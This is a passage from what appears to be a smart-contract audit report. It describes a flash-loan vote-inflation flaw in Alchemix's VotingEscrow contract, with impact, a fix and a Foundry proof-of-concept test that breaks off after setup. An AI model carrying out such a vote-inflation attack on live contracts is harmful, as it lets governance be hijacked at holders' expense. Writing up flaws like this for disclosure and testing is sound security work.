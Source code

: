 https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L359-L363
```solidity
function tokenURI(uint256 _tokenId) external view override(IERC721Metadata, IVotingEscrow) returns (string memory) {
    require(idToOwner[_tokenId] != address(0), "Query for nonexistent token");
    LockedBalance memory _locked = locked[_tokenId];
    return _tokenURI(_tokenId, _balanceOfTokenAt(_tokenId, block.timestamp), _locked.end, _locked.amount);
}
```

Since, `tokenURI` function is also using same vulnerable `_balanceOfTokenAt` function, same attack we can perform to change the tokenURI for any `_tokenId`.
## Impact

Since users are able to inflate their voting power, which they can use to vote for a malicious governance proposal. Same attack we can also use to alter tokenURI.
## Recommendation

Flashloan protection check should be implemented in `_balanceOfTokenAt` function.
## References

- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L366-L369
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L372-L374
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1426-L1465
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L264-L277
- https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L359-L363



## Proof Of Concept

**Steps to Run using Foundry:**
- Paste following foundry code in `src/test/VotingEscrow.t.sol`
- Run using `FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testVoteInflationByTransferToken -vvv`

```solidity
// Check inflation of votes using flashloaning veALCX
function testVoteInflationByTransferToken() public {
    address user1 = address(0x101);
    address user2 = address(0x102);

    uint256 tokenId = createVeAlcx(user1, TOKEN_1, MAXTIME, false);
    hevm.startPrank(user1);
    assertEq(veALCX.ownerOf(tokenId), user1);
    console.log("balanceOfToken(tokenId)   :", veALCX.balanceOfToken(tokenId));
    // console.log("balanceOfTokenAt(tokenId) :", veALCX.balanceOfTokenAt(tokenId, block.timestamp));
    console.log("getVotes(user1)           :", veALCX.getVotes(user1));
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));

    assertEq(veALCX.balanceOfToken(tokenId), getMaxVotingPower(TOKEN_1, veALCX.lockEnd(tokenId)));
    assertEq(veALCX.balanceOfToken(tokenId), veALCX.balanceOfTokenAt(tokenId, block.timestamp));
    assertEq(veALCX.balanceOfToken(tokenId), veALCX.getVotes(user1));
    assertEq(veALCX.getVotes(user2), 0);

    hevm.stopPrank();
```